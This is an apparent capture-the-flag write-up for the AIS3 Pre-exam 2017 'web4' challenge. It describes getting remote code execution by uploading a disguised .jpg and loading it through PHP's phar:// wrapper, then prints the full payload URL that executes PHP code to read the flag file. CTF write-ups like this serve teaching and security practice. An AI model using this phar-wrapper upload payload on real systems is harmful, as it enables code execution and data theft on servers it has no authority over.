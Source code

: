 #AIS3 Pre-exam 2017: web4

![web4](web4.png)

##Solution
Continue from web3...
Use the same approach to get the uploaddddddd.php source code.
It let us upload only .jpg file, but with this we can upload a file to perform RCE.
However, this time "zip" wrapper is unregistered, but luckily "phar" wrapper still work.

Reference: https://github.com/pwning/public-writeup/blob/master/codegate2015/web200-owlur/writeup.md

> Payload: https://quiz.ais3.org:23545/?p=phar://./images/140.112.211.129/NakYkPcee.jpg/z&code=echo%20file_get_contents(%27the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l%27);

Flag:
>AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!}

